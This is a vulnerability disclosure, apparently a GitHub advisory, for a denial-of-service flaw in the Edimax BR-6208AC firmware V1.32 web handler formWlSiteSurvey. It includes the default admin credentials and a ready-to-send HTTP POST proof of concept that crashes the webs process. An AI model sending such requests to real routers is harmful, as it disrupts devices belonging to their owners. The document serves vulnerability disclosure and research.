 ## **Description**

An improper memory operation vulnerability in the function `'formWlSiteSurvey'` of  the Edimax BR-6208AC firmware version ​**V1.32** allows remote attackers to cause a denial of service (DoS) via a crafted `'ifname'` parameter in an HTTP request. The vulnerability arises due to an incorrect `strcpy` operation that attempts to write data into a read-only memory location (`"wlan1"`), leading to a segmentation fault.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWlSiteSurvey' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**websGetVar** retrieves POST parameters.
- `strcpy` operation attempts to write data into a read-only memory location (`"wlan1"`), leading to a segmentation fault.


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWlSiteSurvey HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/wireless5g_basic.asp
Upgrade-Insecure-Requests: 1

done=1&ifname=1111
```

Before the request, we use command 'ps' to show the pid ID of process 'webs'(11114).
![result](./img/result1.png)
Then we send the request, we could find that the service is temporary not available. After waiting for a while, we find that the process restart.
![result](./img/result2.png)
![result](./img/result3.png)